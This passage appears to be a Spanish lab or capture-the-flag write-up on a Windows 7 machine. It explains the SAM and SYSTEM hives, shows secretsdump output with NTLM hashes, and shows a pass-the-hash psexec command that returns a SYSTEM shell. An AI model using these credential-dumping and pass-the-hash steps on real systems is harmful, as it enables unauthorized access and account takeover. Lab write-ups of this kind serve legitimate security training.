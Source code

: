 El archivo `SAM (Security Account Manager)` es un archivo en `Windows` que `almacena` las `cuentas` de `usuario` y los `hashes` de sus `contraseñas`. Este archivo está ubicado en `C:\Windows\System32\config\SAM`. Está `encriptado` para `proteger` la `información` de las `contraseñas`. Para poder `descifrarlo`, se necesita una `clave maestra` que se encuentra en el archivo `SYSTEM`

El archivo `SYSTEM` contiene las `claves` de `encriptación` necesarias para `descifrar` los `hashes` almacenados en el archivo `SAM`. Este archivo se encuentra en `C:\Windows\System32\config\SYSTEM`. En específico, el archivo `SYSTEM` contiene el valor `BootKey` que se utiliza para `desencriptar` los `hashes` de las `contraseñas`

`Obtenemos` los hashes `NTLM` de los usuarios

```
# impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xa749692f1dc76b46d7141ef778aa6bef
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
haris:1000:aad3b435b51404eeaad3b435b51404ee:8002bc89de91f6b52d518bde69202dc6:::
[*] Cleaning up... 
```

Con este `hash` nos podemos `conectar` a la `máquina víctima` cuando queramos sin necesidad de proporcionar `contraseña`

```
# impacket-psexec WORKGROUP/Administrator@10.129.199.216 -hashes ':cdf51b162460b7d5bc898f493751a0cc'                                  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.199.216.....
[*] Found writable share ADMIN$
[*] Uploading file xlZCQCOm.exe
[*] Opening SVCManager on 10.129.199.216.....
[*] Creating service fGjC on 10.129.199.216.....
[*] Starting service fGjC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
## Extras (Obtaining Credentials Stored In Memory)

Verificamos si el `sistema operativo` es `x64` o `x86`, en este caso en `x64`

```
C:\Windows\Temp\PostExploitation> systeminfo


Host Name:                 HARIS-PC
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          haris
Registered Organization:   
Product ID:                00371-222-9819843-86066
Original Install Date:     14/07/2017, 14:45:30
System Boot Time:          11/08/2024, 12:19:43
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
```